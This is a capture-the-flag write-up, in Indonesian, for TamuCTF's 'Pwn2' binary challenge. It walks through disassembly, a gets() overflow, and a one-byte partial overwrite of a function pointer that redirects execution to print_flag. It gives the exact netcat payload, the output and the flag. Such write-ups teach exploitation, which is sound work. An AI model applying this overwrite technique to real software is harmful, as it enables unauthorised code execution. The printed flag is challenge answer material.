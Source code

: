 # __TamuCTF__
## _Pwn2_

## Information
**Category:** | **Points**
pwn | 356

**Description**

> nc pwn.tamuctf.com 4322
> Difficulty: easy
> [pwn2](./pwn2)

### Pwn2
#### File
```
pwn2: ELF 32-bit LSB pie executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=d126d8e3812dd7aa1accb16feac888c99841f504, not stripped
```

```
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : ENABLED
RELRO     : FULL
```

#### Run
```
[l0l@l0l Pwn2]$ ./pwn2
ch function would you like to call?
aaaaa
```

#### Solve
Langsung coba buka di gdb. Ada beberapa fungsi yang kelihatannya menarik.
```
0x000006ad  two
0x000006d8  print_flag
0x00000754  one
0x0000077f  select_func
0x000007dc  main
```
Pada fungsi main, terdapat vuln buffer overflow. Tapi setelah dicek ternyata kita tidak dapat melakukan return ke fungsi lain karena programnya crash :(

Selain itu juga ada proteksi NX, PIE, dan RELRO.
```
   0x5655581a <+62>:    call   0x56555500 <puts@plt>
   0x5655581f <+67>:    add    esp,0x10
   0x56555822 <+70>:    sub    esp,0xc
   0x56555825 <+73>:    lea    eax,[ebp-0x27]
   0x56555828 <+76>:    push   eax
   0x56555829 <+77>:    call   0x565554e0 <gets@plt>
   0x5655582e <+82>:    add    esp,0x10
   0x56555831 <+85>:    sub    esp,0xc
   0x56555834 <+88>:    lea    eax,[ebp-0x27]
   0x56555837 <+91>:    push   eax
   0x56555838 <+92>:    call   0x5655577f <select_func>
```
Namun setelah itu fungsi main memanggil fungsi `select_func` dengan argumen input kita.
Coba lihat hasil disassembly fungsi `select_func`.

```
   0x5655578b <+12>:    add    ebx,0x182d
   0x56555791 <+18>:    lea    eax,[ebx-0x190b]
   0x56555797 <+24>:    mov    DWORD PTR [ebp-0xc],eax
   0x5655579a <+27>:    sub    esp,0x4
   0x5655579d <+30>:    push   0x1f
   0x5655579f <+32>:    push   DWORD PTR [ebp+0x8]
   0x565557a2 <+35>:    lea    eax,[ebp-0x2a]
   0x565557a5 <+38>:    push   eax
   0x565557a6 <+39>:    call   0x56555550 <strncpy@plt
   0x565557ab <+44>:    add    esp,0x10
   0x565557ae <+47>:    sub    esp,0x8
   0x565557b1 <+50>:    lea    eax,[ebx-0x1675]
   0x565557b7 <+56>:    push   eax
   0x565557b8 <+57>:    lea    eax,[ebp-0x2a]
   0x565557bb <+60>:    push   eax
   0x565557bc <+61>:    call   0x565554d0 <strcmp@plt>
   0x565557c1 <+66>:    add    esp,0x10
   0x565557c4 <+69>:    test   eax,eax
   0x565557c6 <+71>:    jne    0x565557d1 <select_func
   0x565557c8 <+73>:    lea    eax,[ebx-0x1864]
   0x565557ce <+79>:    mov    DWORD PTR [ebp-0xc],eax
   0x565557d1 <+82>:    mov    eax,DWORD PTR [ebp-0xc]
   0x565557d4 <+85>:    call   eax
```

Terlihat input kita dicopy sebanyak 0x1f bytes lalu dibandingkan dengan `$ebx-0x1675`. Coba lihat isinya :
```
gdb-peda$ x $ebx-0x1675
0x56555943:     "one"
```

Jika sama dengan "one" maka program akan memanggil $ebx-0x1864:
```
gdb-peda$ x $ebx-0x1864
0x56555754 <one>:       "U\211\345S\203\354\004\350", <incomplete sequence \357>
```
Disini terdapat vuln lain yaitu one-byte overflow, karena jarak antara `$ebp-0x2c` dengan `$ebp-0xc` adalah 30 bytes. Berarti kita dapat melakukan overwrite 1 byte `$ebp-0xc` (yang nantinya akan dipanggil). Kita dapat mengisinya dengan byte terakhir dari fungsi `print_flag`.

```
gdb-peda$ x print_flag
0x565556d8 <print_flag>:
```

#### Payload
```
python2 -c "print 'A'*30+'\xd8'" | nc pwn.tamuctf.com 4322
```

#### Result
```
[l0l@l0l Pwn2]$ python2 -c "print 'A'*30+'\xd8'" | nc pwn.tamuctf.com 4322

Which function would you like to call?
This function is still under development.
gigem{4ll_17_74k35_15_0n3}
```

#### Flag
gigem{4ll_17_74k35_15_0n3}
